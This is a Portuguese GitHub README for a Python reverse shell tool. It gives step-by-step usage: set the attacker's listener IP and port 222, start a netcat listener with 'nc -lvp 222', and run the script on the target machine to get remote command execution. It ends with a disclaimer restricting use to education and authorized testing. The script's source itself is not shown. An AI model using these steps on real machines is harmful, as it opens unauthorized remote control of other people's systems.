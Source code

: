 <p align="center">
  <img src="https://i.imgur.com/AVD4rUO.png" alt="Reverse Shell Hacker Art" width="600"/>
</p>

<h1 align="center">🐍 Reverse Shell em Python</h1>
<p align="center">
  Ferramenta simples e eficaz para execução remota de comandos via conexão reversa.
</p>

---

## 👤 Autor

**Miguel Vasco**

Desenvolvedor entusiasta de segurança ofensiva, automações e exploração de sistemas.

---

## ⚙️ Funcionalidades

- Estabelece uma **conexão reversa** com o host atacante.
- Permite a **execução remota de comandos**.
- Código limpo, direto e de fácil customização.

---

## 🚀 Como Usar

1. **Clone o repositório:**
    ```bash
    git clone https://github.com/Miguel-Vasco7/reverse_shell.py.git
    cd reverse_shell.py
    ```

2. **Configure o IP alvo:**
   - Edite o arquivo `reverse_shell.py` e substitua:
     ```python
     HOST = "<ip_do_listener>"
     PORT = 222
     ```

3. **Inicie o listener (máquina atacante):**
    ```bash
    nc -lvp 222
    ```

4. **Execute o script na máquina alvo:**
    ```bash
    python3 reverse_shell.py
    ```

---

## ⚠️ Aviso Legal

> Esta ferramenta foi desenvolvida **exclusivamente para fins educacionais e testes autorizados**. O uso não autorizado em sistemas alheios é **ilegal** e **antiético**. O autor **não se responsabiliza** por qualquer uso indevido.

---

## 🤝 Contribuições

Contribuições são sempre bem-vindas!  
Sinta-se à vontade para abrir uma **issue** ou enviar um **pull request**.


